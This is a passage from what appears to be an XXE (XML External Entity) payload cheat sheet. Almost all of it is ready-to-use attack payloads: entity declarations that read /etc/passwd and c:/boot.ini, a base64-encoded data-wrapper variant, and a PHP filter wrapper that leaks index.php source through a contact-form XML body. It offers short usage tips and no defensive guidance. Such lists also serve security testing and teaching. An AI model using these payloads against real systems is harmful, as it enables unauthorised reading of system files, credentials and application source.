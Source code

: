 It might help to set the `Content-Type: application/xml` in the request when sending XML payload to the server.

## Read file content

Classic XXE, we try to display the content of the file `/etc/passwd` 

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

:warning: `SYSTEM` and `PUBLIC` are almost synonym.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```


Classic XXE Base64 encoded

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

## PHP Wrapper inside XXE

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue du CTF</adress>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

